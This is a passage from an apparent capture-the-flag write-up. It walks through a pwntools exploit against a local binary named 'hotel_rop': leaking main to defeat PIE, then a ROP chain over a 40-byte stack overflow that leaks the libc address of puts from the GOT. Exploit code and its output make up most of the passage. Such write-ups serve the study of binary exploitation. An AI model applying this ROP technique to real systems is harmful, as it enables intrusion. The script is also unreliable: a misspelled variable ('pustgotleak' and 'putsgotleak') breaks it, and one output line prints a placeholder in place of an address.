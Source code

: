 OUTPUT:

```
[x] Starting local process './hotel_rop'
[+] Starting local process './hotel_rop': pid 3631
[x] Calculating PIE base
[*] Leak of main: 0x5562e309d36d
[+] PIE base @ elf.address
[+] Calculating PIE base: Done
```

Running the script, we see that we successfully found PIE base.

### Stage 2: Leak and calculate LIBC base

Since LIBC is ASLR-enabled, we also have to calculate the LIBC base. This means we will need a LIBC leak and we will do that in our `rop.chain()`.

We will leak an address from the `GOT` which contains libc addresses, and from there, calculate our libc base address.

Let's write our `rop.chain()`, but without having to find any gadgets or addresses ourselves!!

```py
from pwn import *

p = process('./hotel_rop') # run the process
context.binary = elf = ELF('hotel_rop') # set elf and context
libc = elf.libc # set libc

with log.progress('Stage 1: Calculating PIE base'): # cool loading bar !
  p.recvuntil(b'main street ')
  mainleak = int(p.recvline().rstrip(b'\n'), 16)

  elf.address = mainleak - elf.sym.main # use elf to save find main address and save PIE base into elf.address
  log.success(f'Stage 1 DONE: PIE base @ {hex(elf.address)}')

with log.progress('Stage 2: leaking LIBC address and calculating LIBC base'):
  rop1 = ROP(elf) # set up rop chain
  rop1.puts(elf.got.puts) # print global offset table entry for puts
  rop1.main() # loop back to main

  p.sendline(flat({ 40: rop1.chain()})) # easily find offset in GDB
  p.recvuntil(b'often.\n')

  pustgotleak = u64(p.recvline().strip(b'\n').ljust(8, b'\x00'))
  libc.address = putsgotleak - libc.sym.puts

  log.success(f'Stage 2 DONE: libc base @ {hex(libc.address)}')
```

OUTPUT:

```
[x] Starting local process './hotel_rop'
[+] Starting local process './hotel_rop': pid 4558

[x] Stage 1: Calculating PIE base
[+] PIE base @ 0x55c995a39000
[+] Stage 1: Calculating PIE base: Done

[x] Stage 2: leaking LIBC address and calculating LIBC base
[+] libc base @ 0x7f1ab1a60000
[+] Stage 2: leaking LIBC address and calculating LIBC base: Done
```
